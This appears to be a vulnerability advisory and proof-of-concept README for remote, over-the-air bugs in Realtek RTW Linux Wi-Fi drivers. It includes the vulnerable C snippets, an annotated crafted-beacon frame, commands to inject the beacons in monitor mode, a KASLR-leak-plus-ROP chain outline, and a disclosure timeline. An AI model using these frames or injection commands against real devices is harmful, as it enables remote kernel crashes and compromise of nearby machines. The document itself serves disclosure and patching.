

# multiple Realtek linux drivers vulnerable to an stack overflow triggered over the air




# PoC: Remote vulnerabilities in Realtek RTW Wi-Fi drivers

Three independent vulnerabilities in the Realtek RTW vendor codebase, shared
across all out-of-tree forks. Combined, they form a remote exploit chain from
radio range, without authentication.

| # | Bug | Trigger | Impact |
|---|-----|---------|--------|
| 1 | Stack overflow (`rtw_get_wps_attr_content`) | Passive scan (beacon) | Kernel panic / RCE |
| 2 | Infinite loop (`rtw_get_wps_attr` walker) | Passive scan (beacon) | Kernel soft lockup |
| 3 | Heap info leak (`issue_assocreq` HT Caps) | Victim connects to rogue AP | KASLR defeat |

### Combined exploit chain

| Step | Bug | Result |
|------|-----|--------|
| 1 | Heap leak (#3) | Rogue AP → victim auto-connects → kernel pointers leaked in cleartext |
| 2 | Stack overflow (#1) | Crafted beacon → with known addresses, targeted ROP → ring 0 |

### Affected drivers 

| Driver | Bus | Location | Stack Overflow | Inf Loop | Heap leak | 0-click | Emulation verified | HW verified | Notes |
|--------|-----|----------|:--------:|:----:|:---------:|:-------:|:---------:|:-----------:|-------|
| **rtl8723bs** | SDIO | in-tree `drivers/staging/rtl8723bs` | ✅ | ✅ | ✅ | ✅ | ✅ mwemu | — | Fix posted |
| **rtl8812au** | USB | [aircrack-ng/rtl8812au](https://github.com/aircrack-ng/rtl8812au) | ✅ | ✅ | ✅ | ❌ | source review | ✅ kernel panic | Requires specifi
c scan params (n_ssids=1, n_channels=1) |
| **rtl8188eus** | USB | [aircrack-ng/rtl8188eus](https://github.com/aircrack-ng/rtl8188eus) | ✅ | ✅ | ✅ | ? | source review | — | Not tested |
| **rtl8723du** | USB | [lwfinger/rtl8723du](https://github.com/lwfinger/rtl8723du) | ✅ | ✅ | ✅ | ? | source review | — | Not tested |
| **rtl8812au** (astsam) | USB | [astsam/rtl8812au](https://github.com/astsam/rtl8812au) | ✅ | ✅ | ✅ | ✅ | source review | — | Original fork, unconditional ca
ll on scan path |
| **8821cu** | USB | [morrownr/8821cu-20210916](https://github.com/morrownr/8821cu-20210916-5.12.x) | ❌ Partial | ✅ | ✅ | ? | source review | — | Copy clamped 
(overflow mitigated), but `u16` wrap + heap leak remain |

### NOT affected

| Driver | Reason |
|--------|--------|
| **rtw88** (in-tree `drivers/net/wireless/realtek/rtw88`) | Completely different codebase; does not contain `rtw_get_wps_attr` |
| **rtw89** (in-tree `drivers/net/wireless/realtek/rtw89`) | Completely different codebase; does not contain `rtw_get_wps_attr` |
| **Windows `rtwlanu.sys`** (Realtek official) | Different implementation; reads WPS Selected Registrar as a direct 1-byte `mov`, not through generic unbounded `m
emcpy`. Verified on version 1030.25.0701.2017 (compiled 2017-12-25) |

### Advisory

Multiple Realtek WiFi Linux drivers are affected to wireless attack that don't require user interaction.

The driver allow to scan, and don't validate some input from WPS metadata. Linux does periodic scans automatically.
For aircrack-ng forked driver it requires to do the scan with specific parameters to trigger, I forced the scan with needed parameters (n_ssids=1, n_channels=1) a
nd when the driver receives the buffer over the air it crashes, because has been compiled with stack cookie:


The version on the linux staging source (rtl8723bs), it is triggered with a normal scan, but I didn't verify it because is an internal WiFi card, the aircrack-ng 
test I did was with an external usb antenna (RTL8812AU), but both drivers share same vulnerable code.

I notified it:
https://lore.kernel.org/all/20260901091226.444666-1-sha0@badchecksum.net/
https://github.com/aircrack-ng/rtl8812au/issues/1268

The vulnerability is validated using emulatinon (mwemu), and in the case of realtek-ng confirmed in real hardware.
The linux in source affected driver is in staging branch, which makes a taint message and isn't.
I checked windows driver is implemented in a different way and it's not affected.


---

## Bug 1: Stack overflow

`rtw_get_wps_attr_content()` copies a WPS attribute's data into the caller's
buffer using the attribute's own `data_len` field (attacker-controlled, up to
0xFFFF) **with no destination-size parameter**. On the Wi-Fi scan path, the
destination is `u8 sr = 0` — one byte on the stack. A crafted beacon or
probe-response with a Selected Registrar attribute claiming `data_len > 1`
overflows the stack during a normal scan, with no user interaction beyond
having WiFi enabled.

### Affected code

```c
// rtw_ieee80211.c — rtw_get_wps_attr_content()
memcpy(buf_content, attr_ptr + 4, attr_len - 4);   // no bound on destination

// ioctl_cfg80211.c — rtw_cfg80211_inform_bss() (scan path, called automatically)
u8 sr = 0;                                          // 1 byte on the stack
rtw_get_wps_attr_content(wpsie, wpsielen,
    WPS_ATTR_SELECTED_REGISTRAR, &sr, NULL);         // copies data_len bytes into &sr
```

See the full vulnerability matrix and NOT affected list at the top of this document.

## Running the PoC

```sh
# Generate a pcap with the crafted beacon (safe, no broadcast):
python3 poc_wps_overflow.py --pcap /tmp/overflow.pcap

# Inspect it:
wireshark /tmp/overflow.pcap
# or:
python3 poc_wps_overflow.py --hex

# Broadcast over the air (CONTROLLED LAB ONLY, needs root + monitor mode):
sudo airmon-ng start wlan0
sudo python3 poc_wps_overflow.py --inject wlan0mon --count 100
```

### What happens on a vulnerable device

A machine with one of the affected drivers that processes the crafted beacon
during a Wi-Fi scan will call `rtw_get_wps_attr_content` on the scan path.
The `memcpy` writes 200 bytes into a 1-byte stack variable, overwriting the
return address and stack canary. In rtl8723bs and astsam/rtl8812au, any
automatic scan triggers this (zero click). In aircrack-ng/rtl8812au, the
vulnerable path requires specific scan parameters (n_ssids=1, n_channels=1):

- **Minimum impact:** `__stack_chk_fail` → kernel panic (remote DoS, unauthenticated,
  no user interaction, in radio range).
- **Potential impact:** with a controlled payload instead of `'A' * 200`, stack
  control → code execution in kernel context.

### Verification without hardware (mwemu)

The overflow was originally found and is reproducible with
[mwemu](https://github.com/mwemuorg/mwemu) +
[kohunt](https://github.com/mwemuorg/kohunt), which loads the real compiled
`.ko` and drives the real `rtw_get_wps_attr_content` function with a crafted
WPS IE against a 1-byte ledger-tracked destination:

```sh
kohunt wps ~/lab/ko/r8723bs.ko
```

```
BUG: KMWEMU: slab-out-of-bounds in u8 sr (stack var in real caller) of size 100
  at addr 0xffff888000000001
  object 0xffff888000000000..0xffff888000000008 (requested 1 bytes, bucket 8), offset 1
```

## The frame (annotated)

```
Offset  Bytes                           Meaning
──────  ──────────────────────────────  ────────────────────────────────
0000    80 00                           Frame Control: Beacon
0002    00 00                           Duration
0004    ff ff ff ff ff ff               DA: broadcast
000a    00 13 37 de ad 01               SA: fake BSSID
0010    00 13 37 de ad 01               BSSID
0016    00 00                           Seq Control
0018    00 00 00 00 00 00 00 00         Timestamp
0020    64 00                           Beacon Interval (100 TU)
0022    11 00                           Capability: ESS + Privacy

        ── Information Elements ──
0024    00 0c 45 56 49 4c ...           SSID: "EVIL_WPS_POC"
0032    01 08 82 84 8b 96 ...           Supported Rates
003c    03 01 01                        DS Parameter Set: channel 1

        ── WPS Vendor-Specific IE ──
003f    dd ff                           EID=0xDD (Vendor Specific), Length=0xFF
0041    00 50 f2 04                     WPS OUI + type
0045    10 41                           Attribute ID: 0x1041 (Selected Registrar)
0047    00 c8                           Attribute data_len: 200 (SHOULD BE 1)
0049    41 41 41 41 41 41 ...           200 bytes of 'A' — overflow payload
```

---

## Bug 2: Infinite loop in WPS attribute walker

`rtw_get_wps_attr()` in `core/rtw_ieee80211.c` walks WPS attributes using a
`u16` length:

```c
u16 attr_data_len = RTW_GET_BE16(attr_ptr + 2);  // attacker-controlled
u16 attr_len = attr_data_len + 4;                 // wraps to 0 at data_len=0xFFFC

attr_ptr += attr_len;  // += 0 when wrapped → infinite loop
```

A crafted beacon with `data_len = 0xFFFC` causes the parser to loop forever
(`attr_ptr` never advances). The kernel watchdog triggers a soft lockup panic.

```sh
# Verify with mwemu:
kohunt loop ~/lab/ko/r8723bs.ko
```

---

## Bug 3: Kernel heap info leak via HT Capability IE

`issue_assocreq()` in `core/rtw_mlme_ext.c` copies a fixed 26 bytes IN from
a beacon's HT Capability IE, but then copies `pIE->length` (attacker-controlled)
bytes OUT into the unencrypted association request frame:

```c
// Step 1: copies 26 bytes IN (bounded):
memcpy(&(pmlmeinfo->HT_caps), pIE->data, sizeof(struct HT_caps_element));

// Step 2: copies pIE->length bytes OUT (unbounded):
pframe = rtw_set_ie(pframe, WLAN_EID_HT_CAPABILITY,
                    pIE->length,                      // ← attacker-controlled
                    (u8 *)(&(pmlmeinfo->HT_caps)),   // ← reads past struct
                    &(pattrib->pktlen));
```

If `pIE->length = 100`, the extra 74 bytes are kernel heap data (including
pointers from `struct mlme_ext_info`) sent in cleartext over the air. The
attacker captures the association request on a second card in monitor mode
→ KASLR defeated.

```sh
# Generate rogue AP beacon:
python3 poc_ht_caps_leak.py --pcap /tmp/leak.pcap

# Broadcast (lab only):
sudo python3 poc_ht_caps_leak.py --inject wlan0mon

# Capture victim's assoc-req and extract leaked data:
sudo python3 poc_ht_caps_leak.py --capture wlan1mon
```

Trigger: victim auto-connects to a rogue AP with a known SSID (NetworkManager
does this automatically).

---

## Hardware verification

Tested on RTL8812AU USB adapter, aircrack-ng out-of-tree driver, Debian 12
bookworm, kernel 6.1.0-39-amd64:

```
Kernel panic - not syncing: stack-protector: Kernel stack is corrupted in:
  _rtw_cfg80211_surveydone_event_callback+0x257/0x260 [88XXau]
Call Trace:
  __stack_chk_fail+0x10/0x10
  _rtw_cfg80211_surveydone_event_callback+0x257/0x260 [88XXau]
  rtw_cmd_thread+0x23a/0x510 [88XXau]
```

See [crash trace on lore](https://lore.kernel.org/linux-staging/20260920194948.214750-1-sha0@badchecksum.net/).

---

## Disclosure

- **2026-08-31** — Reported to security@kernel.org.
- **2026-09-01** — Patch [v1](https://lore.kernel.org/all/20260901072249.366750-1-sha0@badchecksum.net/)
  and [v2](https://lore.kernel.org/all/20260901091226.444666-1-sha0@badchecksum.net/)
  posted to linux-staging. Greg KH reviewed and asked for real-hardware testing.
- **2026-09-20** — [Hardware test results](https://lore.kernel.org/linux-staging/20260920194948.214750-1-sha0@badchecksum.net/)
  sent to lore (RTL8812AU USB, Debian 12, kernel panic confirmed).
- **2026-09-20** — [Issue #1268](https://github.com/aircrack-ng/rtl8812au/issues/1268)
  and [fix PR #1269](https://github.com/aircrack-ng/rtl8812au/pull/1269)
  filed on aircrack-ng/rtl8812au.
- **2026-09-20** — CVE requested from MITRE (pending).
- **Status:** Kernel fix not merged (staging = TAINT_CRAP policy). aircrack-ng PR pending review.

## Author

Jesus Olmos ([@sha0coder](https://github.com/sha0coder)) · `sha0@badchecksum.net`

Found with [mwemu](https://github.com/mwemuorg/mwemu) (kernel-mode driver emulation)
and source review, assisted by Claude (Anthropic). Human-verified, human-signed.
